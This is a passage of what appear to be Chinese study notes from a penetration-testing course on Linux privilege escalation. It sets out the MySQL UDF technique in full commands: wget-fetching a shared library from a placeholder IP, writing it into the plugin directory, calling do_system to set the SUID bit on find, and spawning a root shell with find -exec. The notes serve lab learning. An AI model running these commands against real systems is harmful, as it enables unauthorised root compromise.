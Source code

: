 下载 1518 到目标服务器
wget https://xx.xx.xx.xx/1518.so

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-39.png)

![64-40](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-40.png)

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-41.png)

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-42.png)

进入数据库进行 UDF 导出

```shell
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-43.png)



创建 do_system 函数调用

```shell
create function do_system returns integer soname '1518.so';
select do_system('chmod u+s /usr/bin/find');
```

莫名其妙的我失败了，此时一声卧槽，我破防了。。。。。



![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-44.png)



##### 配合使用 find 调用执行

```shell
find / -user root -perm -4000 -print 2>/dev/ null
touch xiaodi
find xiaodi –exec "whoami" \;
find xiaodi –exec "/bin/sh" \;
id
```

视频中是成功的！

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-45.png)

## Linux 提权提升漏洞查找关注点-拓展总结

### 案例 4-Linux 提权提升简单总结归类-参考 PDF
